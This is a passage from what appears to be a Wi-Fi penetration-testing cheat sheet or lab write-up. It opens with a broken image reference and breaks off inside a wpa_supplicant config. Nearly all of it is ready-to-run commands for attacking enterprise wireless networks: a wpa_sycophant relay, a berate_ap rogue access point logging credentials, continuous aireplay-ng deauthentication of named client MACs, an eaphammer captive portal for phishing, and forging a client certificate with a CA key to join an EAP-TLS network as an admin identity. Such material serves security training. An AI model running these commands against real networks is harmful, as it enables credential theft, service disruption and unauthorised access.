 3. Set the relay listener
```
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3
```
In case wpa_sycophant fails, try editing the **wpa_sycophant_example.conf** file by changing phase1:
```
phase1="peapver=1"
```

4. Raise the rogue AP
```
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo wifi-regional-tablets
```

5. Make deauthentication and wait for clients to connect 
```
sudo airmon-ng start wlan0
sudo iwconfig wlan0mon channel 44
sudo aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:A9:DE:55
sudo aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:BD:64:54
```
Once connected we can obtain IP by DHCP to access the web server
```
sudo dhclient wlan3 -v
```

### Hacking EAP-TLS
#### Phishing + RogueAP (captive-portal)
Rogue AP for a probeb SSID (here Wifi-Restaurant)
```
cd ~/tools/eaphammer
sudo killall dnsmasq
./eaphammer --essid WiFi-Restaurant --interface wlan4 --hostile-portal
./eaphammer --essid WiFi-Restaurant --interface wlan4 --captive-portal #for phishing
```

Deauthentication
```
sudo iwconfig wlan0mon channel 44
sudo aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
```
#### Connect to EAP-TLS wifi 
Here we assume we have the CA certificate that can be used to sign a generated client certificate
We also assume we have `client.conf` and `client.ext` 
```
openssl genrsa -out myclient.key 2048
openssl req -config client.conf -new -key myclient.key -out myclient.csr
openssl x509 -days 730 -extfile client.ext -CA ca.crt -CAkey ca.key -CAserial ca.serial -in myclient.csr -req -out myclient.crt
```
Create wpa_supplicant file
```
echo 'network={
 ssid="wifi-global"
 scan_ssid=1
 mode=0
 proto=RSN
 key_mgmt=WPA-EAP
 auth_alg=OPEN
 eap=TLS
    #anonymous_identity="GLOBAL\anonymous"
 identity="GLOBAL\GlobalAdmin"
 ca_cert="/home/user/Downloads/ca.crt"
```